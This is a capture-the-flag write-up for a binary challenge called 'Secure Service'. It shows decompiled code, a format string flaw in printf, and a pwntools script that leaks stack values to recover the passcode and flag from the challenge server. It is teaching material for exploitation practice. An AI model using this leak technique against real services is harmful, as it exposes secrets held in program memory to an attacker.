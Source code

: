 # Secure Service
Category: Reversing & Binary Exploitation

## Description
> The department of EEvil created a service to spread flags and ruin the competition, the service requires a passcode in order to receive the flag, see if you can get the passcode.

A binary file was attached, as well as server details.

## Solution

Let's run the attached binary:

```console
root@kali:/media/sf_CTFs/technion/Secure_Service# ./secure_service
Welcome to the EEvil departement secure service
Please enter you name: Fake
Hello Fake, Please enter the passcode: Password1
This is not the code! Are you trying to hack us?
```

The program asks us for a name and password. We probably need to provide the correct combination to get the flag.

Let's open the program in Ghidra:

```c
undefined8 main(void)

{
  int iVar1;
  long lVar2;
  char *local_RDI_43;
  long in_FS_OFFSET;
  char user_password [16];
  char real_password [16];
  char user_name [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  lVar2 = 0xc;
  local_RDI_43 = user_name;
  while (lVar2 != 0) {
    lVar2 = lVar2 + -1;
    *(undefined8 *)local_RDI_43 = 0;
    local_RDI_43 = local_RDI_43 + 8;
  }
  *(undefined4 *)local_RDI_43 = 0;
  user_password._0_8_ = 0;
  user_password._8_8_ = 0;
  real_password._0_8_ = 0x2323232323232323;
  real_password._8_8_ = 0x232323232323;
  puts("Welcome to the EEvil departement secure service");
  printf("Please enter you name: ");
  __isoc99_scanf("%100s",user_name);
  printf("Hello ");
  printf(user_name);
  printf(", Please enter the passcode: ");
  __isoc99_scanf(&DAT_00100b0b,user_password);
  iVar1 = strcmp(real_password,user_password);
  if (iVar1 == 0) {
    puts("Great, here is the flag: ################\nLong Live the EEmpire!");
  }
  else {
    puts("This is not the code! Are you trying to hack us?");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 1;
}
```

We can see a few things here:

* If we get the password right, we will indeed get the flag (however the local binary provided to us has the flag redacted)
* The expected password is saved on the stack (in the local binary it's `'##############'`)
* Most importantly: The name we provide to the program is passed as-is to `printf`, causing a format string vulnerability


Using this vulnerability, we can craft our name to look like a format string instead of a plain string by including format specifiers such as `%x`. This will cause the program to print back values from the stack:

```console
root@kali:/media/sf_CTFs/technion/Secure_Service# ./secure_service
Welcome to the EEvil departement secure service
Please enter you name: %x
Hello 6f0a5b50, Please enter the passcode:
```

Instead of printing `%x`, the program treated it as a format specifier and printed a value from the stack: `6f0a5b50`.

We write a short script to dump a few values from the stack:

```python
# First, generate pwntools template via:
# pwn template --host ctf.cs.technion.ac.il --port 4007 ./secure_service

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def leak(index):
    with context.local(log_level='ERROR'): 
        io = start()
        io.sendline(f"%{index}$p")
        io.recvuntil("Hello ")
        leaked = io.recvuntil(",", drop = True)
        io.close()
        res = leaked.decode("ascii")
        if res == "(nil)":
            res = "0"
        return res

for i in range(1, 20):
    leaked_hex = leak(i)
    try:
        leaked_str = int(leaked_hex, 16)
        log.info(f"Index: {i:02}, Value: 0x{leaked_str:016x}, as ASCII: {p64(leaked_str)}")
    except ValueError:
        pass
```

We'll run it locally first:
```console
root@kali:/media/sf_CTFs/technion/Secure_Service# python3 solve.py LOCAL
[*] '/media/sf_CTFs/technion/Secure_Service/secure_service'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Index: 01, Value: 0x00007ffc86fbcb60, as ASCII: b'`\xcb\xfb\x86\xfc\x7f\x00\x00'
[*] Index: 02, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 03, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 04, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 05, Value: 0x0000000000000006, as ASCII: b'\x06\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 06, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 07, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 08, Value: 0x2323232323232323, as ASCII: b'########'
[*] Index: 09, Value: 0x0000232323232323, as ASCII: b'######\x00\x00'
[*] Index: 10, Value: 0x0000007024303125, as ASCII: b'%10$p\x00\x00\x00'
[*] Index: 11, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 12, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 13, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 14, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 15, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 16, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 17, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 18, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 19, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
```

We can see the expected password at offsets 8-9.

Now, let's run on the server:
```console
root@kali:/media/sf_CTFs/technion/Secure_Service# python3 solve.py
[*] '/media/sf_CTFs/technion/Secure_Service/secure_service'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Index: 01, Value: 0x00007ffe89ecbca0, as ASCII: b'\xa0\xbc\xec\x89\xfe\x7f\x00\x00'
[*] Index: 02, Value: 0x00007fa35e8ac8c0, as ASCII: b'\xc0\xc8\x8a^\xa3\x7f\x00\x00'
[*] Index: 03, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 04, Value: 0x0000000000000006, as ASCII: b'\x06\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 05, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 06, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 07, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 08, Value: 0x68745f73695f4652, as ASCII: b'RF_is_th'
[*] Index: 09, Value: 0x0000747365625f65, as ASCII: b'e_best\x00\x00'
[*] Index: 10, Value: 0x0000007024303125, as ASCII: b'%10$p\x00\x00\x00'
[*] Index: 11, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 12, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 13, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 14, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 15, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 16, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 17, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 18, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Index: 19, Value: 0x0000000000000000, as ASCII: b'\x00\x00\x00\x00\x00\x00\x00\x00'
```

As before, the password is leaked at indexes 8-9: `RF_is_the_best`.

```console
root@kali:/media/sf_CTFs/technion/Secure_Service# nc ctf.cs.technion.ac.il 4007
Welcome to the EEvil departement secure service
Please enter you name: Name
Hello Name, Please enter the passcode: RF_is_the_best
Great, here is the flag: cstechnion{us3_f0rm4t_str1ng_0n_1nput}
Long Live the EEmpire!
```

The flag: `cstechnion{us3_f0rm4t_str1ng_0n_1nput}`

